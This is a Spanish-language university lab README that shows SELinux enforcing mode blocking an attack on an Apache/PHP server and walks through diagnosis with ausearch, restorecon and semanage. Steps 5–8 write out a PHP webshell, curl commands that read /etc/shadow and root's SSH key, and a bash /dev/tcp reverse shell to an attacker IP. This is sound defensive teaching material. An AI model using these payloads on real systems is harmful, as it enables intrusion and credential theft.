


<div align="center">

# SELinux — Control Obligatorio de Acceso (MAC) en Linux

**Laboratorio de seguridad ofensiva y defensiva: demostración en vivo del comportamiento de SELinux ante un ataque real con webshell y reverse shell.**

<br>


<br>

[Objetivos](#objetivos) · [Infraestructura](#infraestructura) · [Procedimiento](#procedimiento) · [Resumen de herramientas](#resumen-de-herramientas) · [Conclusiones](#conclusiones)

</div>

---

## Integrantes

| Integrante | Rol |
|:--|:--|
| **Abelardo Cárcamo** | Teoría y Demo — Hardening, configuración y defensa con SELinux en Rocky Linux |
| **Chester Ferrer** | Demo — Ataques y pruebas desde Kali Linux |

---

## Tabla de Contenidos

<details open>
<summary><b>Ver índice</b></summary>

<br>

- [Objetivos](#objetivos)
- [Infraestructura](#infraestructura)
- [Procedimiento](#procedimiento)
  - [Paso 1 — Instalación de dependencias](#paso-1--instalación-de-dependencias)
  - [Paso 2 — Iniciar servicios](#paso-2--iniciar-servicios)
  - [Paso 3 — Verificar estado de SELinux](#paso-3--verificar-estado-de-selinux)
  - [Paso 4 — Verificar contextos de seguridad](#paso-4--verificar-contextos-de-seguridad)
  - [Paso 5 — Plantar el webshell](#paso-5--plantar-el-webshell)
  - [Paso 6 — Ataque con SELinux Enforcing](#paso-6--ataque-con-selinux-enforcing-debe-fallar)
  - [Paso 7 — Diagnóstico de bloqueos](#paso-7--diagnóstico-de-bloqueos)
  - [Paso 8 — Contraste: Permissive vs Enforcing](#paso-8--contraste-permissive-vs-enforcing)
  - [Paso 9 — restorecon](#paso-9--restorecon-corregir-contexto-mal-etiquetado)
  - [Paso 10 — semanage](#paso-10--semanage-directorio-personalizado)
  - [Paso 11 — Restaurar estado final](#paso-11--restaurar-estado-final)
- [Resumen de herramientas](#resumen-de-herramientas)
- [Conclusiones](#conclusiones)

</details>

---

## Objetivos

| # | Objetivo |
|:-:|:--|
| 1 | Demostrar la diferencia entre **DAC** y **MAC** en un entorno real |
| 2 | Configurar y validar SELinux en modo **Enforcing** sobre un servidor Apache con PHP |
| 3 | Simular un ataque real (**webshell + reverse shell**) y observar el comportamiento de SELinux |
| 4 | Diagnosticar bloqueos con herramientas nativas y corregir con `restorecon` y `semanage` |

<p align="right"><a href="#selinux--control-obligatorio-de-acceso-mac-en-linux">Volver arriba</a></p>

---

## Infraestructura



| Máquina | SO | IP | Rol | Software |
|:--|:--|:--|:--|:--|
| Laptop Abel | Rocky Linux 9 | `192.168.10.1` | Víctima | Apache + PHP + SELinux |
| Laptop Chester | Kali Linux | `192.168.10.2` | Atacante | nmap · nc · curl |

> [!NOTE]
> Ambas VMs usan adaptador de red en modo **Bridged** apuntando al puerto ethernet físico de cada laptop. Esto permite comunicación real punto a punto entre máquinas.

<p align="right"><a href="#selinux--control-obligatorio-de-acceso-mac-en-linux">Volver arriba</a></p>

---

## Procedimiento



---

### Paso 1 — Instalación de dependencias

```bash
dnf install -y httpd php php-cli php-fpm \
    policycoreutils-python-utils \
    setroubleshoot-server \
    nmap-ncat acl
```

| Paquete | Propósito |
|:--|:--|
| `httpd` | Servidor web Apache |
| `php` + `php-fpm` | Procesador PHP vía FastCGI |
| `policycoreutils-python-utils` | Incluye `semanage` |
| `setroubleshoot-server` | Incluye `sealert` para diagnóstico legible |
| `nmap-ncat` | Implementación de `nc` para el listener |
| `acl` | Herramientas de listas de control de acceso |

---

### Paso 2 — Iniciar servicios

```bash
systemctl enable --now php-fpm
systemctl enable --now httpd
firewall-cmd --add-service=http --permanent
firewall-cmd --reload
```

---

### Paso 3 — Verificar estado de SELinux

```bash
getenforce
sestatus
```

<details>
<summary><b>Output esperado</b></summary>

```text
Enforcing

SELinux status:                 enabled
Current mode:                   enforcing
Policy name:                    targeted
```

</details>

---

### Paso 4 — Verificar contextos de seguridad

```bash
# Contexto de procesos Apache
ps -eZ | grep httpd

# Contexto de archivos del sistema
ls -Z /etc/passwd
ls -Z /tmp/
ls -Z /var/www/html/
```

**Anatomía del contexto SELinux**

```text
system_u : system_r : httpd_t : s0
    │          │          │       │
    │          │          │       └── Nivel MLS/MCS
    │          │          └────────── Tipo  ← el más importante
    │          └───────────────────── Rol
    └──────────────────────────────── Usuario SELinux
```

> [!IMPORTANT]
> El **tipo** (`httpd_t`, `passwd_file_t`, `user_tmp_t`) es el campo crítico: define exactamente qué acciones están permitidas entre sujetos y objetos según la política.

<p align="right"><a href="#selinux--control-obligatorio-de-acceso-mac-en-linux">Volver arriba</a></p>

---

### Paso 5 — Plantar el webshell

```bash
printf '<?php\nif(isset($_GET["cmd"])){\n    echo "<pre>".shell_exec($_GET["cmd"])."</pre>";\n}\n?>' \
    > /var/www/html/shell.php
```

**Verificar contexto**

```bash
ls -Z /var/www/html/shell.php
# unconfined_u:object_r:httpd_sys_content_t:s0
```

**Probar ejecución PHP**

```bash
curl "http://localhost/shell.php?cmd=id"
# <pre>uid=48(apache) gid=48(apache) context=system_u:system_r:httpd_t:s0</pre>
```

> [!NOTE]
> El webshell responde. El proceso corre como `httpd_t` — confinado por SELinux.

---

### Paso 6 — Ataque con SELinux Enforcing (debe fallar)

Ejecutado desde **Kali Linux** (`192.168.10.2`):

```bash
# Intento 1 — Leer /etc/shadow
curl "http://192.168.10.1/shell.php?cmd=cat+/etc/shadow"
# Resultado: <pre></pre>  ← BLOQUEADO

# Intento 2 — Leer clave SSH de root
curl "http://192.168.10.1/shell.php?cmd=cat+/root/.ssh/id_rsa"
# Resultado: <pre></pre>  ← BLOQUEADO

# Intento 3 — Reverse shell
# [Kali — Terminal 1] Abrir listener:
nc -lvnp 4444

# [Kali — Terminal 2] Lanzar reverse shell:
curl "http://192.168.10.1/shell.php?cmd=bash+-i+>%26+/dev/tcp/192.168.10.2/4444+0>%261"
# Resultado: listener no recibe conexión  ← BLOQUEADO
```

| Intento | Acción | Resultado |
|:--|:--|:--|
| 1 | Leer `/etc/shadow` |  |
| 2 | Leer clave SSH de root |  |
| 3 | Reverse shell a Kali |  |

> [!WARNING]
> **¿Por qué falla?** El proceso `httpd_t` no tiene política para leer `shadow_t` ni `ssh_home_t`, y tampoco para abrir conexiones TCP salientes arbitrarias. SELinux bloquea en la capa MAC **independientemente** de los permisos Unix.

<p align="right"><a href="#selinux--control-obligatorio-de-acceso-mac-en-linux">Volver arriba</a></p>

---

### Paso 7 — Diagnóstico de bloqueos

```bash
# Deshabilitar reglas dontaudit para ver TODOS los bloqueos
semodule -DB

# Buscar bloqueos recientes en el log de auditoría
ausearch -m avc -ts recent
```

<details>
<summary><b>Ejemplo de línea AVC en el log</b></summary>

```text
avc: denied { net_admin } for pid=17179 comm="php-fpm"
scontext=system_u:system_r:httpd_t:s0
tcontext=system_u:system_r:httpd_t:s0
tclass=capability permissive=0
```

</details>

**Decodificando el mensaje**

| Campo | Valor | Significado |
|:--|:--|:--|
| `denied` | — | Acción bloqueada |
| `{ net_admin }` | capability 12 | Acción que intentó realizar |
| `comm` | `php-fpm` | Proceso origen |
| `scontext` | `httpd_t` | Contexto del proceso |
| `tcontext` | `httpd_t` | Contexto del objeto destino |
| `permissive` | `0` | Enforcing activo — bloqueo real |

---

### Paso 8 — Contraste: Permissive vs Enforcing

#### Cambiar a Permissive

```bash
setenforce 0
getenforce  # → Permissive
```

#### Repetir el ataque — ahora SÍ conecta

```bash
# [Rocky — Terminal] Listener
nc -lvnp 4444

# [Kali] Reverse shell
curl "http://192.168.10.1/shell.php?cmd=bash+-i+>%26+/dev/tcp/192.168.10.2/4444+0>%261"
```

```bash
# Dentro de la shell en Kali:
id        # → uid=48(apache)
hostname  # → localhost.localdomain
cat /etc/passwd
```

#### Volver a Enforcing

```bash
setenforce 1
getenforce  # → Enforcing
```

| Variable | Permissive | Enforcing |
|:--|:--|:--|
| Servidor | Mismo | Mismo |
| Webshell | Mismo | Mismo |
| Permisos Unix | Mismos | Mismos |
| Reverse shell |  |  |

> [!IMPORTANT]
> **Conclusión del contraste:** mismo servidor, mismo webshell, mismos permisos Unix. La única variable fue `setenforce`. **Permissive solo registra — Enforcing bloquea.**

<p align="right"><a href="#selinux--control-obligatorio-de-acceso-mac-en-linux">Volver arriba</a></p>

---

### Paso 9 — `restorecon`: corregir contexto mal etiquetado

```bash
# 1. Simular contexto incorrecto con chcon
chcon -t user_tmp_t /var/www/html/test.php

# 2. Verificar — contexto INCORRECTO
ls -Z /var/www/html/test.php
# unconfined_u:object_r:user_tmp_t:s0  ← Apache no puede servirlo correctamente

# 3. Restaurar contexto según la política
restorecon -v /var/www/html/test.php
# Relabeled /var/www/html/test.php:
#   user_tmp_t → httpd_sys_content_t

# 4. Verificar — contexto CORRECTO
ls -Z /var/www/html/test.php
# unconfined_u:object_r:httpd_sys_content_t:s0
```

---

### Paso 10 — `semanage`: directorio personalizado

```bash
# 1. Crear directorio fuera del DocumentRoot estándar
mkdir -p /webdemo
echo "<?php echo 'Hola SELinux'; ?>" > /webdemo/index.php

# 2. Contexto incorrecto por defecto
ls -Z /webdemo/
# unconfined_u:object_r:default_t:s0  ← Apache no puede leerlo

# 3. Registrar regla permanente en la política
semanage fcontext -a -t httpd_sys_content_t "/webdemo(/.*)?"

# 4. Aplicar la regla
restorecon -Rv /webdemo/
# Relabeled /webdemo:           default_t → httpd_sys_content_t
# Relabeled /webdemo/index.php: default_t → httpd_sys_content_t

# 5. Verificar
ls -Z /webdemo/
# unconfined_u:object_r:httpd_sys_content_t:s0
```

> [!TIP]
> **Diferencia crítica entre `chcon` y `semanage`:**
>
> | Herramienta | Persistencia |
> |:--|:--|
> | `chcon` | Temporal — se pierde en relabel o reboot |
> | `semanage` | **Permanente** — queda registrado en la política |

<p align="right"><a href="#selinux--control-obligatorio-de-acceso-mac-en-linux">Volver arriba</a></p>

---

### Paso 11 — Restaurar estado final

```bash
# Reactivar reglas dontaudit
semodule -B

# Confirmar enforcing
setenforce 1
getenforce    # → Enforcing
sestatus
```

---

## Resumen de herramientas

| Herramienta | Función |
|:--|:--|
| `getenforce` | Muestra el modo actual: Enforcing / Permissive / Disabled |
| `sestatus` | Estado completo de SELinux y política activa |
| `setenforce 0/1` | Cambia el modo en caliente (no persiste en reboot) |
| `ls -Z` | Muestra contexto SELinux de archivos |
| `ps -eZ` | Muestra contexto SELinux de procesos en ejecución |
| `chcon` | Cambia contexto manualmente — **temporal** |
| `restorecon` | Restaura contexto según la política definida |
| `semanage fcontext` | Define reglas de contexto **permanentes** |
| `ausearch -m avc` | Busca eventos de denegación en el log de auditoría |
| `semodule -DB` | Deshabilita `dontaudit` — muestra todos los bloqueos |
| `semodule -B` | Restaura reglas `dontaudit` al estado normal |

<p align="right"><a href="#selinux--control-obligatorio-de-acceso-mac-en-linux">Volver arriba</a></p>

---

## Conclusiones

> [!NOTE]
> **1. DAC no es suficiente** — los permisos Unix pueden ser correctos y aun así SELinux bloquea acciones no autorizadas por política.

> [!NOTE]
> **2. El tipo es lo más importante** — `httpd_t` define exactamente qué puede y qué no puede hacer Apache, sin importar que corra como root.

> [!WARNING]
> **3. Permissive ≠ seguro** — en permissive SELinux solo registra sin proteger; nunca debe quedar así en producción.

> [!TIP]
> **4. Flujo de diagnóstico estándar:** `ausearch` → identificar el `denied` → `restorecon` o `semanage` según el caso.

> [!IMPORTANT]
> **5. Defensa en profundidad** — SELinux + `firewalld` juntos confinan el proceso y restringen la red; si uno falla, el otro contiene el daño.

---

<div align="center">

**Universidad Tecnológica de Panamá**

Licenciatura en Ciberseguridad · 2026

<br>

**Abelardo Cárcamo** · **Chester Ferrer**


<br>

<a href="#selinux--control-obligatorio-de-acceso-mac-en-linux">Volver arriba</a>

</div>
